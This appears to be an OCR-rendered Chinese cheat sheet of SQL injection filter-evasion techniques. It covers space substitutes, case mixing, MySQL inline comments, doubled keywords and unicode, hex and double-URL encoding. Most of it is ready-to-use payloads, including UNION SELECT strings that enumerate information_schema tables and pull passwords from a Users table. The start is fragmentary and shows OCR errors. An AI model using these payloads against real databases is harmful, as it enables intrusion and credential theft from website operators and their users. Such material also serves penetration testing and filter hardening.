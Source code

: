 - and 和 or 有可能不能使用，可以试下 && 和 || = 不能使用的情况，可以考虑尝试 <、>

- **过滤了空格**：替换为 + 进行绕过

  两个空格代替一个空格，用Tab代替空格 编码: hex,urlencode 空格URI _编码 %0a %09 TAB键(水平)

  %0a   换行   %0c   新的一页   %Od   return功能

  %0b TAB键(垂直) %20 %09 %0a %0b %0c %0d %a0 /**/ 括号绕过空格 在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来 select(user())from dual where 1=1 and 2=2;

- **\N绕过**：\N 其实相当于NULL字符

  ```sql
  select * from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0 select * from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0 select * from users where id=\Nunion select 1,2,3,4,5,6,7,8,9,0
  ```

### 大小写绕过

   如果程序中设置了过滤关键字，但是过滤过程中并没有对关键字组成进行深入分析过滤，导致只是对整体进行过滤。例如: and过滤。当然这种过滤只是发现关键字出现，并不会对关键字处理。

   通过修改关键字内字母大小写来绕过过滤措施。例如: AnD 1=1   

   例如:在进行探测当前表的字段数时，使用order by数字进行探测。如果过滤了order，可以使用OrdER来进行绕过。

   id=1+UnIoN/**/SeLeCT

### 内联注释绕过

   在mysql注中内联注释中的内容可以被当作SQL语句执行

   id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()-- -

   通常情况下，上面的代码可以绕过过滤器，请注意，我们用的是 Like而不是 =

### 双关键字绕过

   如果在程序中设置出现关键字之后替换为空，那么SQL注入攻击也不会发生。对于这样的过滤策略可以使用双写绕过。因为在过滤过程中只进行了以此替换。就是将关键字替换为对应的空。

   id=1+UNIunionON+SeLselectECT+1,2,3–

### 编码绕过

如URLEncode编码，ASCII,HEX,unicode编码绕过

一些unicode编码举例： 单引号：' %u0027 %u02b9 %u02bc %u02c8 %u2032 %uff07 %c0%27 %c0%a7 %e0%80%a7 空白： %u0020 %uff00 %c0%20 %c0%a0 %e0%80%a0 左括号(: %u0028 %uff08 %c0%28 %c0%a8 %e0%80%a8 右括号): %u0029 %uff09 %c0%29 %c0%a9 %e0%80%a9

or 1=1即%6f%72%20%31%3d%31

而Test也可以：CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)

十六进制编码：SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))

双重编码绕过：id=1%252f%252a*/UNION%252f%252a/SELECT%252f%252a*/1,2,password%252f%252a*/FROM%252f%252a*/Users--+
